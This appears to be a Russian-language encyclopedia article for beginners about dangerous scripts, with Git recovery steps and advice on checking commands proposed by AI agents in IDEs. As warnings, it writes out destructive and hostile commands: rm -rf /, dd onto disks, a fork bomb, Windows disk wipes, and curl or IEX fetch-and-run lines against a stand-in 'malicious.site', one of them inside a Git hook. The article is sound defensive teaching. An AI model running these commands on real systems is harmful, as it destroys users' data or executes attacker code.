

# Опасные скрипты

<div class="article-tags">
  <span class="tag tag-required">ОБЯЗАТЕЛЬНО</span>
  <span class="tag tag-beginner">ДЛЯ НОВИЧКОВ</span>
</div>

<span class="complexity-badge">Разработчику</span>
<span class="complexity-badge">Архитектору</span>
<span class="complexity-badge">Инженеру</span>

Типичный сценарий: в чате или туториале дают "волшебную" команду — `curl … | bash`, `git reset --hard`, скрипт "почистить проект". Запуск без чтения строки за строкой. Через минуту пустой диск, пропавшие коммиты или проект, который больше не собирается.

```bash
curl … | bash
```

**Опасный скрипт** — любая последовательность команд или код, который при запуске удаляет данные, ломает систему, ворует секреты или жрёт ресурсы. Он выполняется с **вашими** правами: `sudo` и "Запуск от имени администратора" только увеличивают ущерб.

---

## Пять правил перед любым скриптом

<div class="callout callout--danger">
  <div class="callout-title">Не обсуждается на продакшене</div>

  <div class="callout-body">
  1. **Не запускайте** то, что не прочитали построчно — хотя бы глазами пробегитесь по `rm`, `del`, `reset`, `format`, `curl`, `wget`, `IEX`.
  2. **Никогда** `curl … | bash`, `wget -O - | bash`, `IEX (DownloadString …)` из интернета — сначала скачайте файл, откройте в редакторе, потом запускайте.
  
  ```bash
  curl … | bash
  ```
  3. **Перед** `rm`, `del`, `Remove-Item`, `git reset`, `git clean`, `git push --force` — остановитесь: какой **путь**, какая **ветка**, какой **remote**.
  
  ```bash
  git push --force
  ```
  4. Сомнительное и деструктивное — только на **учебной VM**, в одноразовом контейнере или отдельной машине, не на рабочем ноутбуке с единственной копией проекта.
  5. Ошиблись в Git — сначала **`git reflog`**, без паники и без `git gc --prune=now`.
  
  ```bash
  git gc --prune=now
  ```
</div>
  </div>


---

## Топ-10 ловушек новичка

| № | Что копируют | Чем грозит |
|---|--------------|------------|
| 1 | `curl -fsSL … \| bash` / `wget -O - \| bash` | Выполнение чужого кода с вашими правами |
| 2 | `rm -rf` с неверным путём, пробелом (`/ home` вместо `/home`) | Массовое удаление |
| 3 | `git reset --hard`, `git checkout -- .`, `git restore .` | Потеря незакоммиченных правок |
| 4 | `git clean -fdx` | Удаление неотслеживаемых файлов и игнорируемого (`.env`, артефакты сборки) |
| 5 | `git push --force` на `main` | Перезапись истории у всей команды |
| 6 | `sudo !!` | Повтор **последней** команды от root |
| 7 | `npm run clean` / `make clean` без чтения `package.json` | Скрытый `rimraf` или `rm -rf` внутри скрипта |
| 8 | `Remove-Item C:\* -Recurse -Force` | Очистка диска Windows |
| 9 | `rm -rf` в WSL по `/mnt/c/...` | Удаление файлов на диске Windows |
| 10 | "Удобный" алиас вроде `git undo` → `reset HEAD~1` | Привычка жать откат без понимания ([112](./112.md)) |

Ниже — разбор по платформам. Сначала Git: там чаще всего "пропадает история", и там же чаще всего её ещё можно вернуть.

---

## Сценарии — симптом и первые 15 минут

### «Нажал reset --hard / clean и пропало всё»

```bash
git reflog
git branch rescue HEAD@{1}    # или нужный номер ДО reset/clean
git checkout rescue
```

Не запускать `git gc --prune=now`. Подробнее — [113](./113.md).

---

### «Запустил curl | bash из туториала»

1. Оборвать выполнение (`Ctrl+C`), если ещё идёт.
2. Не перезагружаться «чтобы само прошло» — зафиксировать процессы.
3. Проверить `crontab`, автозагрузку, новые файлы в `$HOME`.
4. Сменить пароли и токены, если скрипт мог их прочитать ([117](./117.md)).
5. На следующий раз — скачать скрипт, прочитать, запускать в VM.

---

### «npm run clean снёс node_modules и .env»

- `node_modules` — `npm ci` / `pnpm install`.
- `.env` — **не** восстанавливается из Git; взять из password manager или у DevOps. Добавить `.env` в `.gitignore`, хранить `.env.example` без секретов.

---

### «WSL rm -rf по /mnt/c/Users/...»

Это удаление **файлов Windows**. Проверить корзину Windows, File History, OneDrive version history. WSL не «песочница» для диска `C:`.

---

### «Агент в IDE предложил git push --force»

Отклонить, прочитать diff команд. На shared-ветке — только с review; альтернатива — `git revert` для отмены публичного коммита без переписывания истории.

---

## Git — сначала спасение, потом опасность

### Если уже нажали "не то"

```bash
git reflog
# Найдите запись ДО reset/clean — например HEAD@{1}
git branch rescue HEAD@{1}
# или — git reset --hard HEAD@{1}
```

Подробные сценарии и сроки хранения reflog — в статье [Особенности работы с репозиториями в Git](./113.md) и [Восстановление данных в Git](/encyclopedia/2-system-network/2-06-sistemnoe-administrirovanie/data-restoring/112).

<div class="callout callout--caution">
  <div class="callout-title">Когда reflog не спасёт</div>

  <div class="callout-body">
  Запись уже вышла из срока хранения reflog; на remote сделали `push --force`, а у вас нет старого коммита; удалили папку `.git` без бэкапа. Тогда остаются клон с другой машины, бэкап ([117](./117.md)) или обращение к коллегам.
</div>
  </div>


---

### Команды, которые ломают историю и файлы

<div class="callout callout--danger">
  <div class="callout-title">Только если вы осознанно откатываете локальную ветку</div>

  <div class="callout-body">
  ```bash
  git reset --hard HEAD~10
  ```
  `--hard` сбрасывает индекс и рабочую копию; коммиты ещё видны в `reflog`, пока не запущен агрессивный `gc`.
</div>
  </div>


```bash
git clean -fdx
```

`-f` — force, `-d` — каталоги, `-x` — в том числе файлы из `.gitignore` (локальные конфиги, `.env`, `node_modules` при ошибочном пути).

```bash
git checkout -- .
git restore .
```

Откат **отслеживаемых** файлов к последнему коммиту; несохранённая работа в этих файлах пропадёт.

<div class="callout callout--danger">
  <div class="callout-title">На общей ветке — согласуйте с командой</div>

  <div class="callout-body">
  ```bash
  git push --force origin main
  ```
  Перезапись удалённой истории; коммиты коллег могут "отвалиться" у тех, кто уже успел забрать старую версию.
</div>
  </div>


**Уничтожение следов в reflog** (осознанная "стирка", не для отката ошибки):

```bash
git reflog expire --expire=now --all
git gc --prune=now --aggressive
```

После этого восстановление через `reflog` невозможно.

---

### Скрытое выполнение кода

```bash
git config --global core.pager "malicious_command"
```

Любой `git log` / `git diff` запустит указанную команду.

```bash
# .git/hooks/pre-commit
curl -s https://malicious.site/collect.sh | bash
```

Хуки в `.git/hooks/` срабатывают при `commit`, `push`, `merge` без отдельного окна "вы уверены?". Проверяйте содержимое хуков после клонирования чужого репозитория.

---

## Чеклист перед запуском

- [ ] Прочитал каждую строку; понимаю пути и флаги
- [ ] Для Git: текущая ветка, есть ли незакоммиченное, нужен ли `--force`
- [ ] Есть бэкап или коммит / push в безопасное место
- [ ] Деструктивное — не на единственной копии данных
- [ ] Скрипт из сети сохранён в файл и просмотрен, а не "сразу в pipe"
- [ ] Команда от ИИ-агента: прочитана построчно, путь и флаги осознанны (см. ниже)

Резервные копии и шифрование — [117](./117.md); флаги Git — [115](./115.md).

---

## ИИ-агент в IDE и терминале

IDE-агенты (Cursor, GitHub Copilot, Claude Code, Continue и др.) могут **предлагать и запускать** команды shell и Git: "почисти проект", "откати коммиты", "установи зависимости". Модель не видит ваш диск целиком и может ошибиться в пути, ветке или флаге.

**Правило:** ответ агента — как скрипт с незнакомого сайта: [пять правил](#пять-правил-перед-любым-скриптом) и [топ-10](#топ-10-ловушек-новичка) обязательны и для "Run", "Accept", "Apply".

| Перед запуском от агента | Проверить |
|------------------------|-----------|
| Команда в терминале | Каждый токен: `rm`, `del`, `format`, `curl \| bash`, `sudo` |
| Git | `reset --hard`, `clean -fdx`, `push --force` — осознанно? |
| Путь | Не `/`, не `C:\`, не `/mnt/c/...` в WSL, если цель — папка проекта |
| Среда | На боевом ноутбуке — отказ или копия в VM / ветку-черновик |
| Секреты | Агент не должен печатать токены; вы не коммитите `.env` по его совету |

Подробнее про архитектуру агентов и политики инструментов — [Агенты ИИ](/encyclopedia/6-ai/6-04-modeli-i-instrumenty/116), про ассистентов в разработке — [4.14 / AI-ассистенты](/encyclopedia/4-code-dev/4-14-razrabotka-i-otladka/1113).

---

## Категории риска



- **деструктивные** — удаление файлов, дисков, конфигураций;
- **шпионские** — перехват ввода, утечка секретов;
- **ресурсные** — майнинг, DDoS, ботнеты.

---

## Bash и Linux

### Файловая система и диск

<div class="callout callout--danger">
  <div class="callout-title">Учебная VM или одноразовый контейнер</div>

  <div class="callout-body">
  ```bash
  rm -rf /
  ```
  `-r` рекурсия, `-f` без вопросов, `/` — корень. На многих дистрибутивах `rm` по умолчанию включает `--preserve-root` и откажется удалять `/`; с `--no-preserve-root` защиты нет. Опасность остаётся для `rm -rf /home`, `/var`, `/mnt/c` в WSL.
</div>
  </div>


```bash
dd if=/dev/zero of=/dev/sda bs=1M
> /dev/sda
```

`dd` затирает блочное устройство; `>` обнуляет начало устройства или файла.

**WSL:** путь `/mnt/c/Users/...` — это диск Windows. `rm -rf` там удаляет файлы Windows, не "песочницу Linux".

---

### Ресурсы

<div class="callout callout--danger">
  <div class="callout-title">Зависание системы</div>

  <div class="callout-body">
  ```bash
  :(){ :|:& };:
  ```
  Форк-бомба: экспоненциальный рост процессов.
</div>
  </div>


```bash
while true; do mkdir test_$(date +%s); done
```

Заполнение диска каталогами.

---

### Код из сети

<div class="callout callout--danger">
  <div class="callout-title">Pipe в shell</div>

  <div class="callout-body">
  ```bash
  curl -fsSL https://example.com/install.sh | sudo bash
  wget http://malicious.site/script.sh -O - | bash
  ```
</div>
  </div>


**Безопасный порядок:** скачать → открыть в редакторе → при необходимости проверить хеш из **доверенного** источника (не с той же страницы, что и скрипт) → запустить:

```bash
curl -fsSL -o install.sh https://example.com/install.sh
sha256sum -c install.sha256   # файл .sha256 с проверенного канала
bash install.sh
```

```bash
sudo !!
```

Повторяет предыдущую команду с правами root — частая опечатка после "Access denied".

---

## PowerShell и Windows

<div class="callout callout--danger">
  <div class="callout-title">Диск и тома</div>

  <div class="callout-body">
  ```powershell
  Remove-Item -Path "C:\*" -Recurse -Force
  Clear-Disk -Number 0 -RemoveData -Confirm:$false
  Format-Volume -DriveLetter C -FileSystem NTFS -Confirm:$false
  ```
</div>
  </div>


```powershell
IEX (New-Object Net.WebClient).DownloadString('https://malicious.site/payload.ps1')
Set-ExecutionPolicy Bypass -Scope Process
```

`IEX` (`Invoke-Expression`) выполняет загруженную строку; `Bypass` снимает ограничения на скрипты в текущем процессе.

Автозагрузка через реестр (`Run`) и извлечение подсказок RDP-логинов — тема [информационной безопасности](/encyclopedia/8-infra-security/8-07-informatsionnaya-bezopasnost/intro); для "не снести диск" достаточно не запускать незнакомые `.ps1` с правами администратора.

---

## CMD и BAT

<div class="callout callout--danger">
  <div class="callout-title">Массовое удаление</div>

  <div class="callout-body">
  ```cmd
  del /f /s /q c:\*.*
  rd /s /q c:\important
  format c: /fs:NTFS /q /y
  ```
</div>
  </div>


`/q` — без вопросов; `format /y` — без подтверждения.

```cmd
setx PATH "C:\malicious;%PATH%" /M
```

`/M` — системная переменная; подмена PATH ломает запуск программ.

`fdisk /mbr` — учебный пример из старых материалов; на современных Windows загрузчик устроен иначе, но произвольные diskpart/format-команды из туториалов остаются опасными.

---

## Справочник — инфраструктура и языки

Расширенный разбор Docker, Kubernetes и паттернов в коде — для тех, кто уже трогает контейнеры и бэкенд. Основной маршрут по контейнерам: [8.06](/encyclopedia/8-infra-security/8-06-konteynerizatsiya-i-orkestratsiya/intro).

<details>
<summary><b>Docker — доступ к хосту и сеть</b></summary>

<div class="callout callout--danger">
  <div class="callout-title">Docker и хост</div>

  <div class="callout-body">
  ```bash
  docker run -v /:/host ubuntu
  docker run --privileged nginx
  docker run -v /var/run/docker.sock:/var/run/docker.sock alpine
  docker run --network host malicious_image
  docker run -p 0.0.0.0:22:22 ubuntu
  ```
</div>
  </div>


`-v /:/host` — все файлы хоста; `--privileged` — почти без изоляции; socket Docker — управление демоном с хоста; `host` network и `0.0.0.0` — обход изоляции и открытие порта наружу.

</details>

<details>
<summary><b>Kubernetes — привилегии и секреты</b></summary>

Опасные фрагменты манифеста:

- `hostNetwork: true` — сеть ноды;
- монтирование `/var/run/docker.sock` или `/etc` с `hostPath`;
- `securityContext.privileged: true`, `runAsUser: 0`;
- `serviceAccountName: cluster-admin` + `kubectl get secrets --all-namespaces`.

```bash
kubectl get secrets --all-namespaces
```

Подробнее о безопасной оркестрации — в разделе [8.06](/encyclopedia/8-infra-security/8-06-konteynerizatsiya-i-orkestratsiya/intro).

</details>

<details>
<summary><b>Python, Node.js, Java — код и зависимости</b></summary>

**Инъекции в shell:**

```python
os.system(f"rm -rf {user_input}")
subprocess.Popen(user_command, shell=True)
```

```javascript
exec(`ls ${userInput}`);
```

```java
new ProcessBuilder("cmd.exe", "/c", userCommand);
```

Предпочтительно: список аргументов без `shell=True` / `exec`, валидация путей.

**Десериализация:** `pickle.loads(untrusted)`, Java `ObjectInputStream.readObject()` — произвольное выполнение кода; для обмена данными — JSON, protobuf и т.п.

**Зависимости:** опечатка `pip install requessts`, случайный пакет в `package.json` — supply chain; `pip install --require-hashes`, `npm audit`, lock-файлы.

```bash
pip install requessts
```

**Log4j (исторический урок):** подстановка `${jndi:ldap://…}` в логах — обновлять библиотеки, не логировать сырой ввод.

</details>

---

## Принципы на каждый день

| Принцип | На практике |
|---------|-------------|
| Минимальные привилегии | Без `sudo` / админа, если задача этого не требует |
| Изоляция | VM, отдельный WSL-дистрибутив, контейнер без mount хоста |
| Чтение кода | Особенно `preinstall`, `postinstall`, `clean` в npm/Makefile |
| Бэкап | Коммит, push, `tar`/облако перед экспериментом |
| Reflog | Первая команда после ошибки в Git — не `gc` |

Скрипт из интернета выполняется от вашего имени. Одна строка в терминале может стоить дольше, чем час написания кода — если заранее не остановиться и не прочитать.

---
